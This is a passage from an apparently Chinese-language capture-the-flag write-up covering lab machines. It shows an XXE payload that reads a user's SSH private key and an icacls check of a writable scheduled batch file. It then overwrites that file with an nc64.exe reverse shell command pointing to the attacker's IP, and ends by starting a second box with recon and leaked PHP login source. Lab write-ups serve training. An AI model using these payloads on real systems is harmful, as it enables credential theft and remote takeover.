 ```xml
<?xml version = "1.0"?>
<!DOCTYPE foo [ <!ENTITY ext SYSTEM "file:///C:/users/daniel/.ssh/id_rsa" > ]>
<order>
	<quantity>1</quantity>
	<item>&ext;</item>
	<address>123</address>
</order>
```

此时即可 SSH 登录主机获得 user flag。随后在 `C:\Log-Management` 目录下发现 `job.bat` 文件：

```bat
@echo off
FOR /F "tokens=1,2*" %%V IN ('bcdedit') DO SET adminTest=%%V
IF (%adminTest%)==(Access) goto noAdmin
for /F "tokens=*" %%G in ('wevtutil.exe el') DO (call :do_clear "%%G")
echo.
echo Event Logs have been cleared!
goto theEnd
:do_clear
wevtutil.exe cl %1
goto :eof
:noAdmin
echo You must run this script as an Administrator!
:theEnd
exit
```

这个脚本会在验证管理员权限后使用 [wevutil](https://learn.microsoft.com/en-us/windows-server/administration/windows-commands/wevtutil) 执行日志清除任务，有可能是一个定时执行的脚本，但脚本本身对我们没有帮助。我们可以修改脚本内容为反弹 shell payload，然后借助定时任务获取管理员 shell。为此，需要先检查 Daniel 对该文件的权限：

```powershell
daniel@MARKUP C:\Log-Management> icacls job.bat
job.bat BUILTIN\Users:(F)
        NT AUTHORITY\SYSTEM:(I)(F)
        BUILTIN\Administrators:(I)(F)
        BUILTIN\Users:(I)(RX)
```

可以发现 `BUILTIN\Users` 也就是本机上的所有用户都具备 Full 权限，因此可以在 cmd 中修改：

```powershell
daniel@MARKUP C:\Log-Management> echo C:\Log-Management\nc64.exe -e cmd.exe <my_ip> 1337 > job.bat
```

注意之后 `job.bat` 有可能被覆盖为原内容，此时需要再次用反弹 shell payload 覆盖文件，多次尝试后可以获得管理员 shell。

### Base

扫描发现 22, 80 端口开放，网站登录页面 URL 为 `/login/login.php`，直接访问 `/login` 可以发现该目录下存在三个文件，其中 `config.php` 是配置文件可能包含敏感信息，但暂时无法读取；`login.php.swp` 是 `login.php` 的备份文件，可以阅读其源码，发现关键部分如下：

```php
header("Location: /upload.php");
$_SESSION['user_id'] = 1;
if (strcmp($password, $_POST['password']) == 0) {
if (strcmp($username, $_POST['username']) == 0) {
require('config.php');
if (!empty($_POST['username']) && !empty($_POST['password'])) {
session_start();
```
